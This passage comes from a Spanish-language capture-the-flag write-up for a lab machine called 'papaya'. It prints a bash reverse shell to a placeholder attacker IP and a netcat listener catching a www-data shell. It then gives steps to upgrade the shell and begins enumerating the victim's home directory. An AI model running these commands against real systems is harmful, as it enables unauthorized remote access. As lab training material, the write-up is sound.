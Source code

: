 Utiliza la siguiente **Reverse Shell** de **Bash** y ejecútala:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.30] 52184
bash: cannot set terminal process group (569): Inappropriate ioctl for device
bash: no job control in this shell
www-data@papaya:/var/www/html/elkarte/themes/cmd$ whoami
whoami
www-data
```
Estamos dentro.

Obtén una sesión interactiva, aunque no será necesario para continuar:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z
stty raw -echo; fg

# Paso 3:
reset -> xterm
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```
Listo.

En este punto, aún no podremos ver la flag del usuario, por lo que debemos escalar privilegios o pivotear al usuario de la máquina víctima.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="enumLin">Enumeración de Máquina Víctima y Crackeo de Archivo ZIP</h2>

Si revisamos el directorio `/home`, encontramos el directorio del **usuario papaya**, pero no podremos entrar a este:
```bash
www-data@papaya:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root   root   4096 Jul  2  2024 .
drwxr-xr-x 18 root   root   4096 Jul  2  2024 ..
drwx------  3 papaya papaya 4096 Jul  2  2024 papaya
```
